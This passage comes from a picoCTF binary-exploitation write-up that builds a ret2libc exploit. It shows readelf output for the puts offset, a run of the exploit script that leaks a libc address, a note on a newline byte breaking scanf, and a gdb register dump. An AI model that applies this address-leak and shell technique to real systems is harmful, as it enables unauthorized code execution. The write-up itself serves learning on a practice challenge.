 Weirdly formatted, but now we know we need to leak the value at address 0x601018 (which will be the address of puts at runtime). We also need to get the offset of puts in libc.so.6: 

```bash
(Linux_Pwn_Venv) asdiml@DESKTOP-XXXXXX:~$ readelf -s ./libc.so.6 | grep puts
   191: 0000000000080a30   512 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.2.5
   422: 0000000000080a30   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
   496: 0000000000126870  1240 FUNC    GLOBAL DEFAULT   13 putspent@@GLIBC_2.2.5
   678: 0000000000128780   750 FUNC    GLOBAL DEFAULT   13 putsgent@@GLIBC_2.10
  1141: 000000000007f260   396 FUNC    WEAK   DEFAULT   13 fputs@@GLIBC_2.2.5
```

The offset is 0x80a30. Putting everything together and running, we see that the libc base address is correct now, yet the shell is still not working: 

```bash
(Linux_Pwn_Venv) asdiml@DESKTOP-XXXXXX:/mnt/d/CTFs/picoCTF/Pwn/heresalibc$ ./attempt.py
[+] Starting local process './vuln_patched': pid 947
[*] running in new terminal: ['/usr/bin/gdb', '-q', './vuln_patched', '947']
[+] Waiting for debugger: Done
[*] hex(leak)='0x7ff37de14a30'
[*] hex(libc_base_addr)='0x7ff37dd94000'
[*] Switching to interactive mode
WeLcOmE To mY EcHo sErVeR!
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAAAAAAAAAAAAAAAAAAAAd
$ ls
$ whoami
$ pwd
```

At this point, it is noted that the "0A" byte in the offset of puts in libc that represents the newline character could be causing problems since scanf will read until a newline character, as seen in do_stuff() from Ghidra: 

```c
__isoc99_scanf("%[^\n]", allocated_buffer);
```

However, in the tutorial, even after puts is changed to setbuf, the error still persists. Thus, we need to take a closer look and step through the program slowly with the attached gdb debugger. We realize that the first payload works fine, gdb shows that our puts offset and address is correct, etc. However, if we print out the stack after the second run of main() by (1) copying the $rsi value just as scanf is called, 

```
0x00000000004006fe in do_stuff ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x00007f2370a5f264  →  0x5477fffff0003d48 ("H="?)
$rdx   : 0x00007f2370d3c8c0  →  0x0000000000000000
$rsp   : 0x00007ffe4dd21880  →  0x00007f2370d3b7e3  →  0xd3c8c0000000000a ("\n"?)
$rbp   : 0x00007ffe4dd21910  →  0x00007ffe4dd219c0  →  "AAAAAAAA"
$rsi   : 0x00007ffe4dd21890  →  0x00007ffe4dd21920  →  "WeLcOmE To mY EcHo sErVeR!"
$rdi   : 0x0000000000400934  →  0x6325005d0a5e5b25 ("%[^\n]"?)
$rip   : 0x00000000004006fe  →  <do_stuff+38> call 0x400580 <__isoc99_scanf@plt>
$r8    : 0x1a
$r9    : 0x00007f2370f66540  →  0x00007f2370f66540  →  [loop detected]
$r10   : 0x0
$r11   : 0x246
$r12   : 0x1b
$r13   : 0x0
$r14   : 0x1b
$r15   : 0x0
```